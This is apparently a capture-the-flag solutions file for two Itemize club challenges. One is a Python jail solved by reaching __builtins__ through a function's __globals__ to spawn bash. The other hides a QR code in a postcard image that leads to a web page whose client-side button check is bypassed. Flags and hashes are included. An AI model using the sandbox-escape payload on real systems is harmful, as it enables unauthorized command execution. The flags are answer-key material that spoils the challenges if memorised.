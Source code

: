 # Week 3 - normal challenge

### Description

TBA

`nc 129.241.150.119 34403`

### Category

misc

### Solution

`show.__globals__['__builtins__'].__import__("os").system("bash")`

Flag: `Itemize{n1ss3ns_l1st3_9000}`

Flag format: `Itemize{l33t_t3xt}`

Verify hash: `3d5dac89d1393d3513fde2d1b62eeb59`

# Week 3 - easy challenge

### Description

Styret i Itemize fikk i dag et meget spesielt julekort levert i postkassen. Julekortet har ingen bakside, og derfor heller ingen tekst knyttet til seg. Klarer du å finne ut hva julekortet inneholder?

https://cloud.itemize.no/s/iQnKKdQdaZ8Hx2j

### Category

stego/misc

### Solution

- Aperisolve the postcard for QR code
- Scanning the QR code sends to https://christmas.ctf.itemize.no/
- Change onclick event condition from false to true and click the button, or alternatively reverse the obfuscared code and go to https://christmas.ctf.itemize.no/h0h0h0.html for flag

Flag: `Itemize{3n_kj3d3l1g_g4v3}`

Flag format: `Itemize{l33t_t3xt}`

Verify hash: `ff5b07ad838abc9f43a358220d4829e4`
